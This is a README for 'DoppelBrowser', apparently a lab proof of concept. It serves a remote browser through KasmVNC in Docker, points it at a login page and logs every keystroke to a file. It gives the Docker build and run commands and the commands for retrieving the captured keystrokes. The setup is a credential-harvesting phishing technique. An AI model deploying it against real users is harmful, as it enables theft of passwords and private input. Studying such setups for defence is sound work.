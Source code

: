 
## Technologies

- KasmVNC / kasmweb/chrome (Docker base)
- Node.js (local keylogging server)
- JavaScript (key event interception and transmission)
- Dockerfile (custom image)
- Self-signed TLS certificates (for HTTPS between client and keylog server)

---

## Quickstart (LAB ONLY)

1. **Clone the repo**
   ```bash
   git clone https://github.com/<your-username>/DoppelBrowser.git
   cd DoppelBrowser

2. **Build the custom Docker image**

   ```bash
   docker build -t doppelbrowser .
   ```

3. **Run the container**

   ```bash
   docker run -d --name DoppelBrowser \
     -p 6901:6901 -p 5901:5901 -p 3000:3000 \
     --shm-size=4g \
     -e VNC_RESOLUTION=1920x1080 \
     -e KASM_URL='http://testphp.vulnweb.com/login.php' \
     -e APP_ARGS='--no-sandbox --kiosk --new-window --start-fullscreen --disable-restore-session-state --disable-session-crashed-bubble --disable-features=TranslateUI,ExtensionsToolbarMenu,PasswordManagerOnboarding' \
     doppelbrowser
   ```
<img width="1306" height="649" alt="Screenshot_2025-10-20_13_53_39" src="https://github.com/user-attachments/assets/d596db04-4c4f-4823-ad9f-b83649b34885" />

4. **Accept the self-signed certificate (required for the PoC)**

   * Visit [https://127.0.0.1:3000/](https://127.0.0.1:3000/) and accept the certificate in your browser.
   * Then visit [https://127.0.0.1:6901/](https://127.0.0.1:6901/) to start the KasmVNC session.
   * All keyboard input will now be logged.

5. **Retrieve captured keystrokes**

   ```bash
   docker exec -it doppel-kasm bash -lc "tail -n 50 /tmp/keystrokes.txt"
   # or
   docker cp doppel-kasm:/tmp/keystrokes.txt ./keystrokes.txt
   ```
6. **Remeber to stop everything**
